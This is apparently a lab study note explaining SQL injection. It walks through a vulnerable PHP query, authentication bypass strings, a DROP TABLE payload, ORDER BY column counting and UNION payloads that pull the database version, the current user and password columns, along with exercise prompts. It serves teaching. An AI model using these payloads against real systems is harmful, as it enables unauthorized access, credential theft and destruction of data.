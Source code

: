 # 🚑 Basic injections:

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

Let's imagine the following code:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

The query to the database would be:

```sql
select * from logins where username like '%$searchInput'
```

So with a single quote, we could break everything:

```php
'%1'; DROP TABLE users;'
#which would turn out like this:
select * from logins where username like '%1'; DROP TABLE users;'
```

Here are the differente sql injections:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go more in depth with the famous login bypass:

```sql
admin' or '1'='1
```

The final query should look like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

What happens on rhe backend is:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

We can also try the inverted command and use OR statement on the password with the `'1'='1` or `' or '1' = '1`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can also use comments to bypass auth, the query looks something like this when you use comments:

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

So we can inject `admin'--` as our username. The final query will be:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

We can also target users:

```sql
SELECT * FROM logins where (username='admin')
```

_**Login as the user with the id 5 to get the flag.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') OR id =5 -- -
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Union

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases.

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

If we wanted to use union statement on different numbers of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

To define how many columns a table has, we can use ORDER BY. We start with `order by 1`, then we will do `order by 2` and then `order by 3` until we reach a number that returns an error. If we failed at `order by 4`, this means the table has three columns

```sql
' order by 5-- -
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>So there are 4 columns</p></figcaption></figure>

We could also use the union command:

```sql
cn' UNION select 1,2,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now that we got the number of columns we can start injecting:

```sql
cn' UNION select 1,@@version,3,4-- -
```

`We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use a Union injection to get the result of 'user()'**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,user(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
